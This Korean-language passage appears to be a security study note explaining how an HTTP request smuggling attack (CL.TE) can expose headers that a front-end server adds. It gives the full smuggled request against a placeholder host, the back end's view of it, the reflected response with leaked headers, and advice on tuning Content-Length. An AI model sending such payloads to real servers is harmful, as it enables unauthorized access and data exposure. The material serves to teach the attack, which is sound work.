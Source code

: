 공격자가 다음과 같은 요청을 보내서 `POST /login` 요청을 스머글링했다고 하자. 

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

백엔드 서버입장에서는 다음과 같은 모양이다. 

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

스머글링 요청에 이어지는 정상적인 요청 `POST /login` 부분이 email 파라메터의 값처럼 취급된다.   
이 정상적인 HTTP 요청에는 프론트엔드 서버에서 rewriting 수행된 결과로 추가된 헤더도 포함되어 있다. 백엔드 서버는 `POST /login` 요청에 대한 결과로 email파라메터의 값을 회신해주기 때문에 결과적으로 다음과 같은 응답이 공격자에게 돌아온다! 😮 프론트엔드 서버가 추가한 헤더가 모두 노출된다. 신박하다. 

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

그리고 또 하나 중요한 점. 노출되는 응답의 크기는 스머글링용 요청의 Content-Length 헤더 값에 따라 달라진다. (위의 예에서 Content-Length: 100으로 지정된 부분이다.) 이를 너무 짧게 하면 노출되는 정보가 적어질 것이고, 너무 길게하면 나머지 바이트가 도착할 때까지 백엔드 서버가 대기하므로 타임아웃이 발생할 확률이 높아진다. 따라서 적절한 값을 지정해야 한다. 이를 위해서 일단 확실히 동작하는 작은 값부터 시작해서 서서히 늘려가면서 확인하면 좋다. 
